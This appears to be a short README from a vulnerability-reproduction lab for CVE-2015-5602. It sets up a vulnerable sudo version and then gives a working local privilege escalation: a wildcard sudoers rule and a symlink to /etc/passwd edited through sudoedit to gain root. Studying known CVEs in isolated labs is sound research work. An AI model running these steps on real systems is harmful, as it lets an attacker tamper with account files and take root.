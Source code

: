 # CVE-2015-5602

### Description
sudoedit in Sudo before 1.8.15 allows local users to gain privileges via a symlink attack on a file whose full path is defined using multiple wildcards in `/etc/sudoers`, as demonstrated by `/home/*/*/file.txt`.

### Command to run
```shell
python -m decret --number 2015-5602 --release bullseye --directory sudoedit-2015 --selenium
# Wrong version by default, the next instruction is to install the vulnerable one
root@cve-2015-5602:/# apt-get install -y --allow-downgrades --allow-unauthenticated sudo=1.8.10p3-1+deb8u2
```

### Simple testing method

```shell
echo "toto ALL=NOPASSWD: sudoedit /home/*/*/test.txt" >> /etc/sudoers
su toto
cd; mkdir demo
ln -s /etc/passwd demo/test.txt
sudoedit demo/test.txt #Should not be working 
sudoedit /home/toto/demo/test.txt # Should be working
```
You can edit the file and then get root access.
